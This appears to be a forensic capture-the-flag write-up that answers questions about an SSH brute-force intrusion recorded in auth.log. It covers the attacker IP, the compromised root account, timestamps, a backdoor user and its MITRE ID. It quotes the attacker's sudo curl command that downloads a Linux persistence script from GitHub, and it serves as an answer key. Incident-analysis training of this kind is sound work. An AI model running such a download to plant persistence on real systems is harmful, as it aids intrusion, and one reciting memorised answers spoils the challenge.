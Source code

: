__Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?__
```bash
65.2.161.68
```

__The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?__
```bash
root
```

__Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?__
```bash
2024-03-06 06:32:45
```

__SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?__
```bash
37
```

__The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?__
```bash
cyberjunkie
```

__What is the MITRE ATT&CK sub-technique ID used for persistence?__
```bash
T1136.001
```

__How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)__
```bash
279
```

__The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?__
```bash
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```